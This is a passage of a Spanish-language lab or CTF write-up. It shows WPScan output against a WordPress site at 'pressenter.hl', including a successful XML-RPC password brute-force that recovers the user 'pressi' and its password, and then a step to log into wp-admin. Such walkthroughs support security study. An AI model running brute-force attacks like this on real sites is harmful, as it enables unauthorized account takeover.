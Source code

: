 ```
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - pressi / dumbass                                                                                                                                                            
Trying pressi / caitlyn Time: 00:00:19 <                                                                                                       > (2980 / 14347372)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: pressi, Password: dumbass

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 22 10:15:26 2024
[+] Requests Done: 4424
[+] Cached Requests: 7
[+] Data Sent: 1.909 MB
[+] Data Received: 31.063 MB
[+] Memory used: 317.715 MB
[+] Elapsed time: 00:01:08
```

Por lo que vemos nos saca las credenciales del usuario `pressi`, ahora nos logearemos en el `worpress`.

```
URL = http://pressenter.hl/wp-admin/
```
